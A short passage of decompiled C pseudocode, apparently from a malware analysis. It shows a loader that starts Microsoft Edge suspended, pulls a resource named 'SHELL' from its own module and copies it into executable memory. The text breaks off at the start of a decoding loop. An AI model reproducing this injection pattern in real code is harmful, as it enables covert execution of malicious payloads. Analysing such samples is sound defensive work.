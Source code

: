 
```c
int sub_7FFED6511000()
{
  HRSRC ResourceW; // rax
  HRSRC v1; // rdi
  DWORD v2; // ebx
  HGLOBAL Resource; // rax
  HRSRC v4; // rbp
  SIZE_T v5; // rsi
  HRSRC v6; // rdi
  DWORD v7; // edx
  HRSRC v8; // rcx
  __int64 v9; // rax
  DWORD (__stdcall *v10)(LPVOID); // rbx
  HRSRC v11; // rbx
  HMODULE phModule; // [rsp+50h] [rbp-B8h] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+58h] [rbp-B0h] BYREF
  DWORD ExitCode; // [rsp+70h] [rbp-98h] BYREF
  SIZE_T NumberOfBytesWritten; // [rsp+78h] [rbp-90h] BYREF
  struct _STARTUPINFOW lpStartupInfo; // [rsp+80h] [rbp-88h] BYREF

  lpStartupInfo.cb = 104;
  memset(&lpStartupInfo.lpReserved, 0, 96);
  LODWORD(ResourceW) = CreateProcessW(
                         L"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                         0LL,
                         0LL,
                         0LL,
                         0,
                         4u,
                         0LL,
                         0LL,
                         &lpStartupInfo,
                         &ProcessInformation);
  if ( (_DWORD)ResourceW )
  {
    phModule = 0LL;
    LODWORD(ResourceW) = GetModuleHandleExW(4u, (LPCWSTR)sub_7FFED6511000, &phModule);
    if ( (_DWORD)ResourceW )
    {
      ResourceW = FindResourceW(phModule, (LPCWSTR)0x65, L"SHELL");
      v1 = ResourceW;
      if ( ResourceW )
      {
        v2 = SizeofResource(phModule, ResourceW);
        Resource = LoadResource(phModule, v1);
        ResourceW = (HRSRC)LockResource(Resource);
        v4 = ResourceW;
        if ( ResourceW )
        {
          if ( v2 )
          {
            v5 = v2;
            ResourceW = (HRSRC)VirtualAlloc(0LL, v2, 0x1000u, 0x40u);
            v6 = ResourceW;
            if ( ResourceW )
            {
              sub_7FFED651D400(ResourceW, v4, v2);
              v7 = 0;
              v8 = v6;
              do
              {
                v8 = (HRSRC)((char *)v8 + 1);
```